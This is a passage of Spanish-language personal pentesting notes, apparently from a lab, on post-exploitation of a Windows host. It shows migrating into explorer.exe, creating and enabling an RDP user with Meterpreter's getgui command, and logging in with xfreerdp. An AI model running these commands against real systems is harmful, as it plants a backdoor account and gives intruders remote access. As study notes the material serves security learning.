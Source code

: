 Una vez dentro, tenemos que ser el usuario administrador y mirarnos al proceso de explorer.exe:
![[Mis apuntes/ANEXOS/Pasted image 20230801124356.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230801124529.png]]
Una vez migrado, tenemos que crear un usuario para el protocolo RDP y activarlo:
```bash
run getgui -e -u wolf -p hack_123
```
![[Pasted image 20240513085004.png]]
Una vez hecho esto, ya podremos entrar dentro del protocolo RDP usando estas credenciales con la herramienta xfreerdp:
```bash
xfreerdp /u:wolf /p:hack_123 /v:10.2.20.12
```
![[Pasted image 20240513085544.png]]
